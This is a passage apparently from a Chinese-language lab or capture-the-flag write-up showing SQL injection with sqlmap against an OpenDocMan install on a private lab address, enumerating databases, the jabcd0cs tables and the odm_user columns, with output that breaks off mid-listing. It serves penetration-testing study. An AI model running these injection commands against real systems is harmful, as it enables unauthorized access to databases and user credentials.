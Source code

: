 ----
available databases [6]:
[*] drupal7
[*] information_schema
[*] jabcd0cs
[*] mysql
[*] performance_schema
[*] phpmyadmin
---- 发现六个数据库

爆表：
sqlmap -u "http://10.211.55.42/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" --dbs --level=5 --risk=3 -D jabcd0cs --tables
----
Database: jabcd0cs
[15 tables]
+-------------------+
| odm_access_log    |
| odm_admin         |
| odm_category      |
| odm_data          |
| odm_department    |
| odm_dept_perms    |
| odm_dept_reviewer |
| odm_filetypes     |
| odm_log           |
| odm_odmsys        |
| odm_rights        |
| odm_settings      |
| odm_udf           |
| odm_user          |
| odm_user_perms    |
+-------------------+
----进入odm_user查看字段！

爆字段：
sqlmap -u "http://10.211.55.42/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user" --dbs --level=5 --risk=3 -D jabcd0cs --tables -T odm_user --columns
----
Database: jabcd0cs
Table: odm_user
[9 columns]
+---------------+------------------+
| Column        | Type             |
+---------------+------------------+
| department    | int(11) unsigned |
| Email         | varchar(50)      |
| first_name    | varchar(255)     |
| id            | int(11) unsigned |